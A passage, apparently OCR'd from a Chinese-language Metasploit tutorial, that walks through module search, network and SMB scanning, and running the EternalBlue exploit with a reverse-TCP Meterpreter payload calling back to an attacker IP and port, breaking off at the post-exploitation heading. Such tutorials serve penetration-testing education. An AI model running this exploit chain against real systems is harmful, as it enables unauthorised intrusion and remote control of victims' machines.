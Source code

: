 msf
search type:exploit platform:windows smb
2.3 使用模块
使用use命令来选择一个模块：

msf
use [module_path]
例如：

msf
use exploit/windows/smb/ms17_010_eternalblue
2.4 显示模块信息
使用info命令查看模块的详细信息，包括描述、选项、引用等。

2.5 设置模块选项
使用show options查看需要设置的选项。
使用set命令设置选项：

msf
set RHOSTS 192.168.1.100
使用setg命令设置全局选项，这样在其他模块中也会使用这个值。

2.6 运行模块
使用exploit或run命令来运行模块。exploit -z在攻击成功后将会话放入后台。

3. 信息收集
在渗透测试中，信息收集是第一步。Metasploit提供了很多辅助模块。

3.1 端口扫描
msf
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 1-1000
run
3.2 SMB版本扫描
msf
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.100
run
4. 漏洞利用
4.1 选择并配置Exploit
以EternalBlue为例：

msf
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
4.2 选择Payload
Payload是在目标上执行的代码。使用show payloads查看可用的Payload。
设置Payload：

msf
set PAYLOAD windows/x64/meterpreter/reverse_tcp
然后需要设置Payload的选项（如LHOST、LPORT）：

msf
set LHOST 192.168.1.50  # 你的IP
set LPORT 4444
4.3 执行
msf
exploit
5. 后渗透阶段
一旦获得Meterpreter会话，就可以进行后渗透。
